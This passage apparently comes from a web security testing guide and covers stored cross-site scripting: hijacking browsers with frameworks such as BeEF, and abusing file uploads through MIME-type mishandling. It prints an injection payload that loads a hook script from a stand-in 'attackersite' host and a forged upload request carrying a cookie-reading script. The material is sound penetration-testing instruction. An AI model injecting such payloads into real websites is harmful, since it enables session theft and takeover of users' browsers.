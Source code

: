 Stored XSS can be exploited by advanced JavaScript exploitation frameworks such as [BeEF](http://www.beefproject.com), [XSS Proxy](http://xss-proxy.sourceforge.net/) and [Backframe](http://www.gnucitizen.org/projects/backframe/).

A typical BeEF exploitation scenario involves:

-   Injecting a JavaScript hook which communicates to the attacker's browser exploitation framework (BeEF)
-   Waiting for the application user to view the vulnerable page where the stored input is displayed
-   Control the application user’s browser via the BeEF console

The JavaScript hook can be injected by exploiting the XSS vulnerability in the web application.

<b>Example</b>: BeEF Injection in index2.php:

    aaa@aa.com”><script src=http://attackersite/hook.js></script>

When the user loads the page index2.php, the script hook.js is executed by the browser. It is then possible to access cookies, user screenshot, user clipboard, and launch complex XSS attacks.

**Result Expected**

![](RubyBeef.png "RubyBeef.png")

This attack is particularly effective in vulnerable pages that are viewed by many users with different privileges.

**File Upload**

If the web application allows file upload, it is important to check if it is possible to upload HTML content. For instance, if HTML or TXT files are allowed, XSS payload can be injected in the file uploaded. The pen-tester should also verify if the file upload allows setting arbitrary MIME types.

Consider the following HTTP POST request for file upload:

    POST /fileupload.aspx HTTP/1.1
    […]

    Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.txt"
    Content-Type: text/plain

    test

This design flaw can be exploited in browser MIME mishandling attacks. For instance, innocuous-looking files like JPG and GIF can contain an XSS payload that is executed when they are loaded by the browser. This is possible when the MIME type for an image such as image/gif can instead be set to text/html. In this case the file will be treated by the client browser as HTML.

HTTP POST Request forged:

    Content-Disposition: form-data; name="uploadfile1"; filename="C:\Documents and Settings\test\Desktop\test.gif"
    Content-Type: text/html

    <script>alert(document.cookie)</script>

Also consider that Internet Explorer does not handle MIME types in the same way as Mozilla Firefox or other browsers do. For instance, Internet Explorer handles TXT files with HTML content as HTML content. For further information about MIME handling, refer to the whitepapers section at the bottom of this chapter.
